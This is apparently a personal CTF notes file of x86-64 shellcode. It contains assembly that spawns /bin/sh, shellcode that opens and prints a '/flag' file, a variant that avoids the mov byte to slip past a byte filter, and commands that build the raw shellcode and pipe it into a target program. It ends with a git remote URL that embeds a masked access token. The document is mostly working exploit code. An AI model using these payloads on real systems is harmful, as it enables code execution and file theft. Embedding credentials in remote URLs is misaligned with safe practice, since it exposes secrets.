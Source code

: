 # SIMPLE BIN SH 

```shell
.global _start
_start:
.intel_syntax noprefix
mov rax, 59		# this is the syscall number of execve
lea rdi, [rip+binsh]	# points the first argument of execve at the /bin/sh string below
mov rsi, 0		# this makes the second argument, argv, NULL
mov rdx, 0		# this makes the third argument, envp, NULL
syscall			# this triggers the system call
binsh:				# a label marking where the /bin/sh string is
.string "/bin/sh"
```

# READ FILE
```shell
.global _start
_start:
.intel_syntax noprefix
mov rbx, 0x00000067616c662f	# push "/flag" filename
push rbx
mov rax, 2				# syscall number of open
mov rdi, rsp				# point the first argument at stack (where we have "/flag")
mov rsi, 0				# NULL out the second argument (meaning, O_RDONLY)
syscall				# trigger open("/flag", NULL)
mov rdi, 1				# first argument to sendfile is the file descriptor to output to (stdout)
mov rsi, rax				# second argument is the file descriptor returned by open
mov rdx, 0				# third argument is the number of bytes to skip from the input file
mov r10, 1000				# fourth argument is the number of bytes to transfer to the output file
mov rax, 40				# syscall number of sendfile
syscall				# trigger sendfile(1, fd, 0, 1000)
mov rax, 60				# syscall number of exit
syscall				# trigger exit()
```

# RUN WITH PROMPT
+ gcc -nostdlib -static shellcode2.s -o shellcode-elf
+ objcopy --dump-section .text=shellcode-raw shellcode-elf
+ (cat shellcode-raw; cat) | ./blah


# SH WITH NO MOV(0x48)
```shell
.global _start
_start:
.intel_syntax noprefix
#int3
add rax, 59             # this is the syscall number of execve
lea rdi, [rip+binsh]    # points the first argument of execve at the /bin/sh string below
xor rsi, rsi            # this makes the second argument, argv, NULL
xor rdx, rdx            # this makes the third argument, envp, NULL
syscall                 # this triggers the system call
binsh:                          # a label marking where the /bin/sh string is
.string "/bin/sh"
```

# NEW GIT 
+ git remote set-url origin https://littlefoot22:********@github.com/littlefoot22/ctf-public.git
